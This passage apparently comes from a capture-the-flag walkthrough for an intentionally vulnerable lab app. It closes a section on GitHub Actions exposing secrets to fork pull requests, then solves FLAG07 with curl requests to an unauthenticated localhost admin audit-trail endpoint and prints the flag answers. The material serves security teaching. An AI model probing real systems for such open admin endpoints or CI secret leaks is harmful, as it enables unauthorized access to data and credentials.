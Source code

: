### Why This is Vulnerable
- GitHub Actions runs workflows from fork PRs with write access
- Secrets available during workflow execution
- No code review before CI/CD runs
- Fix: Use `pull_request_target` carefully, require approvals, don't expose secrets to forks

---

## FLAG07: Admin Trail For All (200 points) - Medium

### Vulnerability
Broken Authentication - Missing Access Controls

### What You'll Learn
- Finding unauthenticated admin endpoints
- Understanding API security testing
- Recognizing endpoints that should require auth

### Solution

Step 1: Access the audit trail endpoint (no auth required)
```bash
curl http://localhost:8000/api/admin/downloadAuditTrail
```

Expected Response:
```json
{
  "export_date": "2024-XX-XX...",
  "events": [
    {
      "event_type": "FLAG_DISCOVERED",
      "user": "anonymous",
      "details": {
        "flag": "flag{who_needs_auth}",
        "endpoint": "/api/admin/downloadAuditTrail"
      }
    }
  ]
}
```

Step 2: Check the response headers for the flag
```bash
curl -I http://localhost:8000/api/admin/downloadAuditTrail
```

Look for:
```
X-Flag: flag{who_needs_auth}
X-No-Auth-Required: true
```
